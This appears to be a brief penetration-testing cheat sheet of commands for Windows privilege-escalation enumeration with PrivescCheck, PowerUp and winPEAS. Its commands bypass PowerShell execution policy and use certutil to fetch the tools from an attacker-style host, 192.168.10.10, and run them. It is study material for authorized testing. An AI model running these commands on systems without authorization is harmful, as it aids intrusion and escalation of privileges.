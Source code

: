 # Automation

## PrivEscCheck

    powershell -ep bypass -c “. .\PrivescCheck.ps1; Invoke-PrivescCheck -Format TXT,HTML”

    powershell -ep bypass -c “. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML”


## PowerUp


    certutil.exe -urlcache -split -f http://192.168.10.10/PowerUp.ps1

    powershell -ep bypass

    . .\PowerUp.ps1

    Invoke-AllChecks (check all possible vulnerability except plaintext passwd)

## Winpeas.exe (All except plaintext passwd)


Windpeas.exe If .net 4.5 (run otherwise)

    certutil.exe -urlcache -split -f http://192.168.10.10:8080/winPEASx64.exe

    .\winPEASx64.exe
